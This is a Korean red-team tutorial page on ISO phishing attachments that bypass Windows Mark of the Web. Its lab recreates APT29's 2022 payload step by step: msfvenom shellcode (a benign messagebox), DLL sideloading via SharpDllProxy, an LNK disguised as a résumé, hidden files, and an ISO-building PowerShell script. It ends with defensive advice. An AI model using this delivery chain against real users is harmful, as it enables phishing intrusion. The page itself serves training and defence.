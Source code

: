 ```yaml
---
description: T1553.005
---
```


# ISO

악성 오피스 문서의 시대가 저물며 공격자들은 피싱에 사용될 수 있는 첨부 파일 종류들을 찾기 시작했다. ISO 파일 포멧은 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 파일 종류다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO를 피싱 공격을 할 때 첨부 파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일을 실행하려고 하면 윈도우는 유저에게 경고창을 띄운다. 이는 인터넷에서 다운 받은 위험한 파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

![이런 경고창 한 번 쯤은 본 기억이 있지 않은가](<../../.gitbook/assets/image (11) (1).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 포함시킬 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 압축 파일을 보내는 것과 비슷하다. 공격자들은 피싱 공격을 할 때 ISO 파일 안에 다른 페이로드들을 같이 숨겨 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭 하면 파일은 자동으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 마운트 된 드라이브에 쓰여진다.&#x20;

### 실습&#x20;

실습에서는 APT29 그룹이 2022년 7월 [실제 공격](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)에 사용했던 페이로드를 똑같이 재현해본다. APT29는 러시아의 해외정보국 (SVR) 이라고 추측되는 그룹이다.&#x20;

7월달 공격에서 APT29는 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩 했다. 사이드로딩을 실행하는 데에는 자기소개서/레지메처럼 생긴 LNK 파일을 사용했다. 이 모든 페이로드들을 담고 있 ISO 파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용될 수 있는 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다:&#x20;

1. 쉘코드를 생성한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

![](<../../.gitbook/assets/image (5) (1).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 iso를 다음의 파워쉘 스크립트를 이용해 만든다. 원본은 여기있다&#x20;

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;



![](../../.gitbook/assets/apt29-iso.gif)

ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;



### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT29 같은 경우 외국의 자기소개서/레쥬메(Resume) 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레쥬메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심해야 한. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**



### 레퍼런스&#x20;

{% embed url="https://github.com/mgeeky/PackMyPayload" %}

{% embed url="https://outflank.nl/blog/2020/03/30/mark-of-the-web-from-a-red-teams-perspective/" %}

{% embed url="https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/" %}
